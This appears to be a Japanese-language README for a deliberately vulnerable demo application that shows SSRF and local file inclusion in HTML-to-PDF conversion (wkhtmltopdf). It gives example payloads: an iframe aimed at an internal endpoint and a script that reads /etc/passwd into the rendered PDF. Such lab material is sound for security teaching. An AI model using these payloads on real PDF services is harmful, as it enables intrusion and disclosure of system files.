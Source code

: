 # HTML2PDF-vuln-demo
## 概要
HTMLをベースとするPDF生成処理に発生するSSRFやLFIの脆弱性に関するデモアプリケーション


## 起動方法
```bash
$ cd wkhtmltopdf
$ docker compose up
```

## URL
http://localhost:5000


## 攻撃ペイロード例

- SSRF
```html
<iframe src="http://localhost:5000/internal"></iframe>
```

- LFI
```html
<script>
xhr = new XMLHttpRequest();
xhr.open("GET", "file:///etc/passwd");
xhr.onload = function(){
    document.write(this.responseText)
};
xhr.send();
</script>
```

